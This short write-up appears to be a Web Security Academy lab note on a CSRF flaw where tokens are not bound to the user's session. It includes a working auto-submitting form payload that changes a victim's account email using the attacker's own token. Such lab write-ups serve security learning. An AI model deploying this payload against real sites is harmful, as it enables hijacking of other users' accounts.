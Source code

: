 # CSRF Vulnerability


![****](/CSRF/Screenshots/csrf4-1.PNG)

![****](/CSRF/Screenshots/csrf4-2.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="kDsuUM8eQZirZ12sWwS4BkMtluaPUT2E">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
- Use your account token and check if any changes can be submitted!